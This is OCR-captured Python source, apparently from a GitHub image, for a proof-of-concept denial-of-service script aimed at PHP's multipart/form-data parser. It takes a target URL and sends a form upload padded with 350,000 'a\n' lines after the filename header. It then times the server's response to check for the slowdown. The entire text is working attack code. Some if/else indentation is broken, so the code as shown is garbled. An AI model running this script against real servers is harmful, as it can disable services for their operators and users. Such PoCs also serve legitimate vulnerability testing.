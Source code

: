 ```
    #http_proxy("http://127.0.0.1:8089")
    parser = OptionParser()
    parser.add_option("-t", "--target", action="store", 
                  dest="target", 
                  default=False, 
          type="string",
                  help="test target")
    (options, args) = parser.parse_args()
    if(options.target):
    target = options.target
    else:
    return;

    Num=350000
    headers={'Content-Type':'multipart/form-data; boundary=----WebKitFormBoundaryX3B7rDMPcQlzmJE1',
            'Accept-Encoding':'gzip, deflate',
            'User-Agent':'Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/40.0.2214.111 Safari/537.36'}
    body = "------WebKitFormBoundaryX3B7rDMPcQlzmJE1\nContent-Disposition: form-data; name=\"file\"; filename=sp.jpg"
    payload=""
    for i in range(0,Num):
        payload = payload + "a\n"
    body = body + payload;
    body = body + "Content-Type: application/octet-stream\r\n\r\ndatadata\r\n------WebKitFormBoundaryX3B7rDMPcQlzmJE1--"
    print "starting...";
    respond=check_php_multipartform_dos(target,body,headers)
    print "Result : "
    print respond[0]
    print "Respond time : "+str(respond[1]) + " seconds";

if __name__=="__main__":
    main()

```